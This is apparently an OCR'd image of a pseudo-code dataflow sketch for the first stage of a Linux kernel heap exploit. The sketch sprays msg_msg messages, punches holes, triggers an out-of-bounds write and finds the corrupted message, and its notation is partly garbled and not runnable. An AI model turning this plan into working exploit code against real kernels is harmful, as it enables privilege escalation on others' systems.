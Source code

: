  [data1] int s;
 [data2] int fd;
 [data3] int ss[NUM_SOCKETS][2] empty : array { top };
 [data4] int pipefd[NUM_PIPEFDS][2];
 [data5] int msqid[NUM_MSQIDS] empty : array { top };

 [data6] char secondary_buf[SECONDARY_SIZE - SKB_SHARED_INFO_SIZE];

 [data7] struct msg_msg *msg;
 [data8] struct pipe_buf_operations *ops;
 [data9] struct pipe_buffer *buf;

 [data10] uint64_t kheap_addr = 0
 
 [data11] struct msg_primary :: empty : heap { top };
 [data12] struct msg_secondary :: empty : heap { top };
 [data13] struct msg_fake;

 [data14] struct data;
 [data15] uint64_t kbase_addr = 0;

 ======================================================
 [flow] data3.0 * conts --- socketpair ---> [data3.1] non-empty : array { top 1,...,4 }
 [flow] data5.0 ---= msgget---> [data5.1] non-empty : array { top 1,...,4096 }

##############################################
 #### Stage 1 – Memory Corruption #######
 #############################################
 #### Spraying Primary Messages...####
 [flow] data11.0 * "0" --- memset ---> [data11.1] non-empty : heap { top "0"{4096} }
     *(int *)&[data11.1].mtext[0] = conts;
     *(int *)&[data11.1].mtext[4] = 1,…,4096;

 #### Spraying Secondary Messages...####
 [flow] data12.0 * "0" --- memset ---> [data12.1] non-empty : heap { top "0"{4096} }
     *(int *)&[data12.1].mtext[0] = conts;
     *(int *)&[data12.1].mtext[4] = 1,…,4096;

 #### Creating Holes in the Primary Message...####
 [flow] data5.1 * &data11.1 --- read_msg --->  [&data11.2] non-empty : heap {top, data11.2.1024, data11.2.2048 ,data11.2.3072}

########################
### Triggering the Out-Of-Bond Write does not lead to any data evolution but writes to the Heap ##
########################

### Searching for Corrupted Primary Message ###
[flow] data5.1 * &data12.1 --- peek_msg ---> [&data12.2] vulnerable : heap { top "corrupted data"{4096} }